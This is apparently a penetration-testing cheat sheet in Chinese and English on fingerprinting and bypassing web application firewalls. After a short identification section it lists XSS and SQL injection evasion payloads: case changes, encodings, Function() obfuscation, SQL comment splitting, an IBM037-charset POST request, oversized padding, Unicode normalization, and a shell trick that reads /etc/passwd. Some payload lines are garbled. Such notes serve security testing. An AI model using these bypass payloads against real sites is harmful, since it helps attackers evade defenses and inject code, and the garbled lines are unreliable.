 # Web Application Firewall (WAF)
https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2 <br>
## 手動識別 WAF
- WAF 的名稱Server 標題（例如Server: cloudflare）
- 與 WAF 相關的其他 HTTP 回應標頭（例如CF-RAY: xxxxxxxxxxx）
- 看似由 WAF 設定的 Cookie（例如回應標頭Set-Cookie: __cfduid=xxxxx）
- 提交惡意請求時的唯一回應代碼。 （例如412）
- 可以透過FIN/RST向伺服器發送 TCP 封包

## 自動化識別 WAF
1. Nmap
  - Nmap 腳本引擎 (NSE) 包含用於偵測和指紋辨識防火牆的腳本
  - $ nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com
2. WafW00f
  - 命令列實用程序
  - $ wafw00f example.com
3. WhatWaf

# Bypassing WAFs
## Bypassing Regex 繞過正規表示式
- 更改有效載荷的大小寫 :
    - <sCrIpT>alert(XSS)</sCriPt> 
- 使用各種編碼、替換函數或字元 :
    - 在前面加上一個額外的「<」:  << script>alert(XSS)</script >
    - 刪除結束標籤 :  <script>alert(XSS) //
    - 使用反引號取代代號代替 : <script>alert`XSS`</script>
- 使用其他語法以及使用換行符或製表符。
    - 雙開尖括號 : java%0ascript:alert ( http.com 
    - 不常見的標籤 : <"STYLE>.classname{background-image:url( "javascript:alert(XSS)" );/STYLE">
    - 需要繞過: <"img/src=1/onerror=alert(0)">
    - 額外字符 : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa href=javascript:alert(1)>xss</a">"

## Obfuscation 混淆 
- Function( "ale" + "rt(1)" )(); #使用除了 alert、console.log 和 prompt 之外的不常見函數javascript
- /? id =1+un/**/ion+sel/**/ect+1,2,3-- #在 SQL 查詢中使用註解來分解語句
- new Function`alt\`6\``; #使用反引號而不是括號
- data:text/html; base64 4mPHxNv564Fx2Fv)5(Q/html; base2W.編碼 javascript %26%2397;lert(1) #使用 HTML 編碼
- <a src= "%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm ( XSSDY #$%&()*~+-_.,:;?@[/|\]^`=confirm()> # 在事件處理程序和等號之間使用任何非字母、數字或封裝字元（僅適用於 Gecko 引擎）

## Charset 字元集
- 修改Content-Type標頭以使用不同的字元集（例如ibm500）
- Python
$ python3  <br>
-- snip --  <br>
>>>  import urllib.parse <br>
>>>  s = '<script>alert("xss")</script>' <br>
 >>>  urllib.parse.quote_plus(s.encode( "IBM037" )) <br>
 'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n' <br>

- 將編碼後的字串傳送到請求正文中並上傳到伺服器
POST /comment/post HTTP/1.1 <br>
Host: chatapp <br>
Content-Type: application/x-www-form-urlencoded; charset=ibm500 <br>
Content-Length: 74 <br>
%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3 <br>

## Content Size 內容大小
- 如果有效負載超過一定大小，則不會檢查請求
- add gibberi e.g 8kb char
## Unicode Compatibility
- 將視覺上不同的字元分解為相同的基本抽象字元
- NFC：規範化形式規範組合
- NFD：規範化形式規範分解
- NFKC：規範化形式相容性組合
- NFKD：範式相容性分解
e.g ＜img src=p onerror='prompt(1)'> --> ＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥
## Uninitialized Variables 未初始化
- Bash 將未初始化的變數視為空字串
- echo $u
- cat$u /etc%u/passwd$u
